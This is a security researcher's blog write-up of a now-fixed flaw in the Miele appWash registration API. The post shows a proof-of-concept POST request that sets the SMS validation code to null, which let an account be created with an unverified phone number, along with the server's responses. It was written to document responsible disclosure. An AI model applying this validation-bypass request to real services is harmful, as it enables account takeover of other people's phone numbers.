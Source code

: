 ```yaml
---
layout: post
title:  "Write-up Miele appWash"
categories: security android
permalink: "/appwash-writeup/"
---
```

Bypassing number validation and completing my first responsible disclosure.

# Background
When entering the wrong number validation code in an app used to pay for laundry, I saw some weird behavior.
As expected it gave an error about the code not matching but it sent the same code again and let me enter the rest of the registration information.
When submitting the information I got the error again but no new SMS.
This prompted me to look into the internet traffic and I found some interesting things.

When I contacted Miele's incident response team they got back to me the following morning and resolved the issue within two weeks!
I have also been added to their [hall of thanks](https://www.miele.com/en/com/cybersecurity-5047.htm#p5052) which is nice.

# Summary  
The number validation can be bypassed without use of the validation code.  
By bypassing the validation someone could link any phone number to their account.

Note:  
The validation code does not seem to expire after wrong attempts so a brute-force attack might also be possible.

# Proof of Concept  
> This doesn't work anymore of course  

For this proof of Concept I used a secondary phone number, and the verification code was: `24062`, but knowing the code is not necessary.

The app submits the data with the following POST request:  
In the request I replaced `"validationCode":"12345"` with `"validationCode":null`

``` c
POST /api-rest/account HTTP/1.1
language: en
platform: appwash
Content-Type: application/json
Content-Length: 686
Host: www.involtum-services.com
Connection: close

{"salutations":"m",
"businessName":null,
"firstName":"X",
"lastName":"X",
"email":"placeholder@email.com",
"street":"X",
"zip":"X",
"city":"X",
"country":"BE",
"invoice_street":null,
"invoice_street2":null,
"invoice_zip":null,
"emailNotification":true,
"invoice_city":null,
"invoice_country":null,
"invoice_language":"en",
"language":"en","iban":"",
"bic":"",
"chamberOfCommerce":null,
"automatic_collection":false,
"account_prepaid":true,
"userName":"placeholder@email.com",
"validationCode":null,
"password":"password",
"mobile":[{
          "mobile":"+31622425986",
          "notification":false,
          "locked":false
         }],
"pushNotification":true,
"locationExternalId":null,
"tcAcceptedAnswer":"ACCEPTED",
"tcVersion":"1",
"currency":"EUR"}
```

# Observed Result  
The Account is created successfully and the server reacted with this result:

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:41:31 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 430
Connection: close

{
  "errorCode":0,
  "errorDescription":"",
  "token_expire_ts":0,
  "serverTime":1595439691,
  "errorDetailMessage":"",
  "activeSessions":[],
  "login":{"email":"placeholder@email.com",
           "password":null,
           "username":"placeholder@email.com",
           "externalId":"73252001",
           "language":"EN",
           "token":"2ea4ddd8:17352a3ed54:-6d70",
           "offlineAllowed":true,
           "manageOthers":true,
           "startMultiple":true,
           "startForOthers":false,
           "fcmToken":null,
           "appOS":null,
           "appVersion":null
         }
}
```
I could also successfully log into the app! (This is a number I only use for testing)
![image could not be loaded](/assets/appwash_screenshot.webp){: style="padding:16px"}

# Expected Result  
A server response like the one when you enter a wrong validation code, or another error.

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:26:54 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 235
Connection: close

{
  "errorCode":41,
  "errorDescription":"This validation code doesn't seem to be correct. Please check the validation code. (code 41)",
  "token_expire_ts":0,
  "serverTime":1595438814,
  "errorDetailMessage":null,
  "activeSessions":null,
  "login":null
}

```

# Possible mitigation
I suspect implementing server-side type checking would resolve this particular issue.   
However, this would not help against a possible brute-force attack.
